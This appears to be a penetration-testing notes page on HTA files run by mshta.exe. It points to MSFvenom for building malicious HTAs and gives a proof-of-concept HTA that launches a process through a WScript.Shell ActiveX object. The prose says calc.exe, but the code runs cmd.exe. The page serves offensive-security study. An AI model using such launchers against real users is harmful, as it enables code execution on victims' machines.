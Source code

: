 # HTA

#### ️HTA application

> Files with the extension `.hta` are automatically executed by the **Internet Explorer** (IE) browser as HTML application (via **`mshta.exe`**).

We can use `MSFvenom` to generate a HTA malicious application [Link](https://github.com/amirr0r/notes/blob/master/Infosec/boot2root-cheatsheet.md#msfvenom)

&#x20;If we visit a URL containing an HTML application, IE will trigger two popups. One that asks us if we want to open or save the file. Another security warning to inform the application will be opened outside the Protected mode.

Example [Windows Script Host Shell object](https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/windows-scripting/aew9yb99\(v=vs.84\)) opening **calc.exe** via [ActiveXObjects](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Microsoft\_Extensions/ActiveXObject):

```html
<html>

<script>
var c = 'cmd.exe'
new ActiveXObject('WScript.Shell').Run(c);
</script>

<head></head>

<body>
<script>
self.close();
</script>
</body>

</html>
```
